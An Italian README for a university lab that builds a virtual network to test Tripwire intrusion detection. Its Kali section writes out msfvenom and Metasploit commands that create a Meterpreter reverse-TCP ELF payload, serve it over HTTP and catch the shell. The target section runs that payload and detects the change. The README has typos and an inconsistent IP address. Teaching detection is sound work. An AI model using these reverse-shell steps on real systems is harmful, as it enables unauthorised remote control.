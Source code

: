 
# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.
![Architettura](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Screened-Network.drawio.png)
Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 4 terminali:

 1. **Terminale**: Ottenere indirizzo ip del target 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o Desktop/payloads/shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use multi/handler
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.18
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target. Come esempio è stato eseguito un cambio di permessi ad una cartella
 ```bash
meterpreter > sudo chmod o+x ./DirectoryTarget
```

 4. **Terminale**: Per far ricevere il pacchetto alla macchina target viene esposto un web server al quale sarà possibile scaricare il file *shell-x86.elf*. (prima entrare nella cartella in cui è il file)
```bash
cd Desktop/payloads
sudo python -m http.server 80
```

## Ubuntu Target
Nella macchina target la prima cosa da fare è installare Tripwire che ci permetterà di rilevare l'attacco compiuto dall'attaccante
```bash
sudo apt-get update
sudo apt-get install tripwire
```
Lasciando inalterate le impostazioni di configurazione di default, Tripwire ti chiederà di creare due chiavi per proteggere i suoi file di configurazione.

-   **site key** : questa chiave viene utilizzata per proteggere i file di configurazione. Dobbiamo assicurarci che i file di configurazione non vengano modificati, altrimenti non ci si può fidare del nostro intero sistema di rilevamento. 
    
-   **local key** : questa chiave viene utilizzata su ogni macchina per eseguire i binari. Ciò è necessario per garantire che i nostri file binari non vengano eseguiti senza il nostro consenso.

>  Nota: assicurati di scegliere passphrase non facilmente deducibili

 1.Inizializzare il database 
----------

Ora possiamo inizializzare il database che tripwire utilizzerà per convalidare il nostro sistema. Questo utilizza il file delle policy e controlla i punti specificati all'interno. Poiché questo file non è stato ancora personalizzato per il nostro sistema, avremo molti avvisi, falsi positivi ed errori. Useremo questi come riferimento per mettere a punto il nostro file di configurazione. Il modo di base per inizializzare il database è eseguendo:

```bash
sudo tripwire --init
```

Questo creerà il nostro file di database e genererà alcuni *warnings* che dobbiamo regolare nella configurazione.  Possiamo eseguire il comando `check` e posizionare i file elencati in un file chiamato `test_results`nella nostra directory di configurazione di tripwire:

```bash
sudo sh -c 'tripwire --check | grep Filename > test_results'
```

Se esaminiamo questo file, dovremmo vedere voci simili a questa:

```bash
less /etc/tripwire/test_results
```
```bash
Filename: /etc/rc.boot
Filename: /root/mail
Filename: /root/Mail
Filename: /root/.xsession-errors
. . .
```
2.Configurazione file delle policy 
----------

Ora che abbiamo un elenco di file che attivano tripwire, possiamo esaminare il nostro file di policy e modificarlo per eliminare questi falsi positivi. Apri il file *twpol.txt* nel tuo editor con i privilegi di root:
```bash
sudo nano /etc/tripwire/twpol.txt
```
Eseguire una ricerca per ciascuno dei file restituiti in`test_results`. Commenta tutte le righe che trovi corrispondenti. Fatto ciò, crea una nuova regola, dandogli un nome e un livello di gravità: `severity = $(SIG_HI)`.  Nel corpo verranno indicate le directory o i file a quali verrà applicata la regola che in questo caso è `$(SEC_INVARIANT) (recurse = 0)`; ossia non sono tollerati cambi di permessi o di proprietà nel primo livello della directory.
![rule](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20rule.png)

Salva e chiudi il file al termine delle modifiche. Ora che il nostro file è configurato, dobbiamo implementarlo ricreando il file di policy crittografato che tripwire effettivamente legge:

```bash
sudo twadmin -m P /etc/tripwire/twpol.txt
```
Dopo che questo è stato creato, dobbiamo reinizializzare il database per implementare la nostra politica:

```bash
sudo tripwire --init
```
```
Please enter your local passphrase:
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
Wrote database file: /var/lib/tripwire/tripit.twd
The database was successfully generated.
```
3.Predisposizione all'attacco
----------
Per far si che la macchina target subisca l'attacco è necessario che scaricare l'eseguibile esposto dalla macchina kali attraverso il web server. Dunque, collegandosi all'indirizzo `192.128.1.28/ 80` è possibile scaricare il file ed eseguirlo tramite i seguenti comandi: 
```bash
sudo chmod +x ./shell-x86.elf ##Concediamo diritti per esecuzione
./shell-x86.elf ##Esecuzione
```
Fatto ciò la macchina sarà infetta. Una volta avvenuto l'attacco lanciando il comando 
```bash
sudo tripwire --check 
```
inizierà la procedura di verifica la quale resituira il seguente report di output
![report](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20detect.png)
## Autori

- [Mattia Scuriatti](https://github.com/Me77y99)
- [Gatti Giada](https://github.com/S1090231)

